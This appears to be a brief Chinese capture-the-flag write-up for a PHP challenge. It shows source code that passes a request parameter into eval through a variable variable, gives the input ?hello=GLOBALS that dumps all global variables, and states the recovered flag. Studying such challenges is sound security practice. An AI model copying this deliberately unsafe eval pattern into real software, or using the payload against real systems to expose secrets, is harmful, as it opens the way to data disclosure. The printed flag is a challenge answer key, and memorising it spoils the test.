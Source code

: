 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 `?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMjExNTcwNjldfQ==
-->